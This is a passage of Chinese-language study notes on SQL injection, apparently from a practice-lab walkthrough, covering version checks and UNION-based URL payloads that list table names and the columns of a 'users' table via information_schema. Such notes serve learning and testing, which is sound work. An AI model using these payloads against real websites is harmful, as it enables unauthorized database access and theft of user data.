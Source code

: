 	![](../assets/img/sql-injection/20220804-161808-9.jpg)
	4.	信息收集
	‼️數據庫版本 version()
	高版本：5.0以上 有系統庫 information_schema
	低版本：5.0以下

‼️當前數據庫名 database()

	5.	使用對應SQL進行注入
在url填寫： ‼️無需分號

查詢當前數據庫內的table名
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()![](../assets/img/sql-injection/20220804-161808-10.jpg)
可見有‼️users這個table

查詢users的column名

?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273

